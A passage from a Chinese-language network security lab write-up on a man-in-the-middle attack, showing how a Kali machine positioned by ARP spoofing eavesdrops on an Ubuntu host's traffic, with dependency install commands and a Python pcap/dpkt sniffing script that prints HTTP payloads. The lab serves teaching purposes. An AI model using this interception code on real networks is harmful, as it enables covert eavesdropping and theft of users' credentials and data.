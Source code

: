 ### 2. 中间人攻击--信息窃听与篡改
在上一部分实验中，通过arp欺骗，Kali成为了Ubuntu和网关之间通信的中间人，作为中间人Kali便能够对通信双方之间的信息进行窃听和篡改。

首先通过一个简单的实验来窃听Ubuntu发向网关的请求。因为Ubuntu发给网关的请求都是经过Kali中间人代为转发，所以Kali只需要抓取通过自身的数据包就能够窃听Ubuntu发出的请求。直接使用抓包软件就能够完成窃听，如果要对数据做精确的过滤和提取则可以使用python脚本。

这里使用python的抓包工具包pcap和解析数据包工具包dpkt来将http请求直接打印出来，如果要过滤更多的请求信息，利用python的正则表达式等工具对数据直接处理即可。

由于Kali上自带了很多依赖工具，如果在其他平台上进行实验可能还需要安装更多的依赖，在Kali下安装工具包的命令为：
```
sudo apt-get install libpcap-dev
pip install pypcap
pip install dpkt
```
抓包的脚本：./codes/wiretap.py
```python
import pcap
import dpkt
import sys
from optparse import OptionParser

def get_interface():
    usage = 'Usage: [-i interface]'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='Specify an interface')
    (options, args) = parser.parse_args()
    if not options.interface:
        parser.print_help()
        sys.exit(0)
    return options.interface

def wiretap(interface):
    worker = pcap.pcap(interface)
    worker.setfilter('tcp port 443 or tcp port 80')
    for (ptime, pdate) in worker:
        packet = dpkt.ethernet.Ethernet(pdate)
        if packet.data.__class__.__name__ == 'IP' \
            and packet.data.data.__class__.__name__ == 'TCP' \
            and (packet.data.data.dport == 443 or packet.data.data.dport == 80):
            http_data = packet.data.data.data
            print http_data

if __name__ == '__main__':
    interface = get_interface()
    wiretap(interface)
```
运行这个脚本。

![wiretap](https://github.com/DBullet/UCore/blob/master/lab5/image004.png)

